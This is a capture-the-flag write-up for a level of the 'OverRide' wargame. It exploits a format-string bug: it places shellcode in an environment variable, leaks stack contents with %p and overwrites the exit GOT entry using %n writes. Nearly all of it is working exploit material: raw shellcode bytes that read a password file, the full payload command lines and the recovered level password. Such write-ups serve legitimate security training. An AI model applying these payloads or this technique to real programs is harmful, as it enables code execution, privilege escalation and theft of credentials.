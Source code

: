 Again, it's a string format exploit. 
We start by exporting our shellcode into an environment variable, we already used it quite a few times.

```bash
export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass")'`
```

We then check the address of the shellcode:

```assembly
(gdb) x/100x *environ
0xffffd790:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a0:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b0:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c0:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d0:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e0:	0x90909090	0x90909090	0x90909090	0x90909090
[...]
```

And we use the exploit to see where our string can be found in the stack:

```bash
level05@OverRide:~$ cat <(python -c 'print("AAAA" + " %p " * 15)') | ./level05 
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd56f  0xffffd56e  (nil)  0xffffffff  0xffffd5f4  0xf7fdb000  0x61616161  0x20702520  0x20702520  0x20702520  0x20702520  0x20702520 
```

We check where we want to write the address of our environment variable :

```assembly
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

And we go for it : 

```bash
level05@OverRide:~$ cat <(python -c 'print("\xe0\x97\x04\x08" + "%4294957020x" + "%10$n" + " -> %10$p")') | ./level05 
�level05@OverRide:~$ 
```

There is an issue, and it's quite strange because it doesn't print anything....
And it doesn't work because `4294957020` is greater than int32_t max !

So we need to write 2 bytes by 2 bytes:
We need to write `0xd7e0 -> 0x08048370`  and `0xfff -> 0x08048372`
Since we will have write 8 bytes already to specify the addresses, we have :

```mathematica
>>> a = 0xd7e0
>>> a - 8
55256
>>> b = 0xffff
>>> b - a 
10271
```

```bash
cat <(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55256x" + "%10$n" + "%10271x" + "%11$n")') | ./level05
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

```bash
su level6
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

